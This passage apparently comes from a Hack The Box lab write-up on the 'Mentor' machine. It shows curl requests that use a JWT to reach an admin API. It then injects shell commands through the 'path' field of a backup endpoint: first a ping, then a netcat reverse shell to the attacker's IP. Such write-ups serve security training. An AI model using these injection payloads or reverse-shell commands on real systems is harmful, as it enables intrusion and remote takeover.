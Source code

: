 ```
  {
    "id": 4,
    "email": "james@mentorquotes.htb",
    "username": "testtest"
  },
```

We can access `/admin` now

```
┌──(luka㉿yokai)-[~/htb]
└─$ curl 'http://api.mentorquotes.htb/admin/' -H 'Content-Type: application/json' -H 'accept: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJ0ZXN0QG1lbnRvcnF1b3Rlcy5odGIifQ.yhdN6mhlvDCzb7QDbE_s31QqqnGPoWug_txMrXUi5sM' -s | jq .
{
  "admin_funcs": {
    "check db connection": "/check",
    "backup the application": "/backup"
  }
}
```

Apparently there's a Command Injection Vulnerability in the `/backup` endpoint.

```
┌──(luka㉿yokai)-[~/htb]
└─$ curl 'http://api.mentorquotes.htb/admin/backup' -H 'Content-Type: application/json' -H 'accept: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJ0ZXN0QG1lbnRvcnF1b3Rlcy5odGIifQ.yhdN6mhlvDCzb7QDbE_s31QqqnGPoWug_txMrXUi5sM' -s -X POST -d '{"path":"; ping -c 2 10.10.16.35 #"}' | jq .
```

![picture 4](/assets/images/64f080eb686bca692ce1d26bc1bbbdc8ba6848e3b40740ba5d8a4b877962d92e.png)  

Netcat is installed so getting shell is very easy

```
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: curl/7.85.0
Content-Type: application/json
accept: application/json
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJ0ZXN0QG1lbnRvcnF1b3Rlcy5odGIifQ.yhdN6mhlvDCzb7QDbE_s31QqqnGPoWug_txMrXUi5sM
Content-Length: 41
Connection: close

{"path":";nc 10.10.16.35 8000 -e /bin/sh;#"}
```
